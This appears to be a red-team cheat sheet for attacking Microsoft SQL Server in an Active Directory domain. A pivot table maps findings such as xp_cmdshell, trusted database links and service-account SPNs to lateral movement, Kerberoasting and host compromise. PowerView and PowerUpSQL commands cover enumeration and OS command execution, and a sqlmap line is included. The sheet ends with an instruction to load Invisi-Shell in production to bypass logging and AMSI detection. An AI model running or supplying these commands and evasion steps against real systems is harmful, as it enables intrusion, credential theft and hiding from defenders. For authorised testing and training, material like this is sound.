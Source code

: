 ## 🎭 **AT-A-GLANCE: SQL SERVER ESSENTIALS**

**Reveals:** Instances, SPNs, database links, xp_cmdshell state, service accounts, trust relationships.

**Use Cases:** Lateral movement via links, command execution via xp_cmdshell, service account abuse, data exfiltration.

**Speed:** Stealth 3–6s jitter; Balanced 1–2s; Lab unrestricted.

## 🧭 **PIVOT MATRIX: STRATEGIC NEXT STEPS**

| Finding | Immediate Pivot | Goal | Tool/Technique |
|---------|-----------------|------|----------------|
| xp_cmdshell enabled | Command execution | OS foothold | xp_cmdshell, RAT |
| Trusted links present | Lateral movement | Network expansion | Database links, trust abuse |
| MSSQLSvc SPN users | Service account abuse | Credential theft | Kerberoasting, SPN abuse |
| SQL svc in admins | Rights abuse | Host compromise | ACL abuse, privilege escalation |

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### 🔧 Microsoft‑Signed & Native
- `Get-ADComputer -Filter {servicePrincipalName -like "*MSSQL*"} -Properties *` — SPN discovery
- `sqlcmd -S SERVER -Q "SELECT @@VERSION"` — Instance probing
- `Get-Service -Name "*SQL*"` — Service enumeration
- `Test-NetConnection -ComputerName SERVER -Port 1433` — Port validation

### ⚔️ Offensive (PowerView/SharpView)
```powershell
Get-DomainComputer -SPN | Where-Object {$_.servicePrincipalName -like "*MSSQL*"}
Get-DomainUser -SPN | Where-Object {$_.servicePrincipalName -like "*MSSQL*"}
Get-DomainObject -LDAPFilter "(servicePrincipalName=*MSSQL*)" -Properties *
# Quick SPN filters
Get-DomainComputer -SPN | ? {$_.servicePrincipalName -match "MSSQLSvc|SQL"} | Select-Object name,servicePrincipalName
```

### 🔴 Red Team (SQL Server)
```cmd
Get-SQLInstanceDomain                                                           :: Domain instances
Get-SQLServerLink -Instance SQL01                                               :: Link enumeration
Get-SQLQuery -Instance SQL01 -Query "SELECT @@VERSION"                          :: Query execution
Invoke-SQLOSCmd -Instance SQL01 -Command "whoami"                              :: OS command exec
sqlmap -u "http://sql01:1433" --dbs                                            :: SQL injection
```

> **🔒 STEALTH REQUIREMENT**: **Invisi-Shell** must be loaded before any SQL Server enumeration in production environments to bypass logging and AMSI detection.

---